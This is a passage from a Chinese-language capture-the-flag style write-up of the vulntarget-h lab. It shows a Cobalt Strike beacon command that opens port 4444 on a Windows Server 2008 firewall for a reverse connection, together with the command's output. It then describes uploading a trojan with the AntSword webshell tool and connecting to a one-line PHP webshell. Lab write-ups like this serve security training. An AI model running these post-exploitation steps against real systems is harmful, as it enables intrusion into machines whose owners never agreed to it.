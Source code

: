 > ![Screenshot_2022-07-02_07-11-12.png](../images/vulntarget-h-WriteUp/Screenshot_2022-07-02_07-11-12.png)
> 
> + 由于我们这个反向连接需要在Windows Sever 2008开放4444端口否则会无法连接。
> 
> ```bash
> beacon> shell netsh firewall set portopening tcp 4444 enable
> [*] Tasked beacon to run: netsh firewall set portopening tcp 4444 enable
> [+] host called home, sent: 77 bytes
> [+] received output:
> 
> 重要信息: 已成功执行命令。
> 但不赞成使用 "netsh firewall"；
> 而应该使用 "netsh advfirewall firewall"。
> 有关使用 "netsh advfirewall firewall" 命令
> 而非 "netsh firewall" 的详细信息，请参阅
> http://go.microsoft.com/fwlink/?linkid=121488
> 上的 KB 文章 947709。
> 
> 确定。
> ```
> 
> + 接下来我们就需要利用蚁剑把木马上传到Windows 7的`C:\phpstudy_pro\`目录然后再执行木马。（为什么不是上传到`WWW`目录，因为`C:\phpstudy_pro\`没有写入权限。）
> 
> + 使用蚁剑连接`dsuijaddjsfvos.php`文件的一句话木马。在连接一句话木马之前需要配置一下蚁剑的代理。
> 